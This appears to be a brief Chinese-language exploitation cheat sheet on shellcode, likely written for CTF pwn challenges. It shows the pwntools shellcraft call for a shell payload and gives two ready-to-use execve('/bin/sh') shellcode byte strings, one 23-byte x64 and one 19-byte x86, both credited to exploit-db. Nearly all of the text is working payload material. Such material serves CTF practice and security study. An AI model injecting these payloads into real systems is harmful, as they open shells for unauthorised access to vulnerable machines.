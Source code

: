 ## shellcode
pwntool生成shellcode，不過有44個字節比較大：
```
asm(shellcraft.sh())
```
x64上只有23個字節的shellcode
```
https://www.exploit-db.com/exploits/36858/
shellcode_x64 = "\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x56\x53\x54\x5f\x6a\x3b\x58\x31\xd2\x0f\x05"
```
x86上的19個字節的shellcode，但是在這裏好像只能用上面這個
```
https://www.exploit-db.com/exploits/40131
"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x87\xe3\xb0\x0b\xcd\x80"
```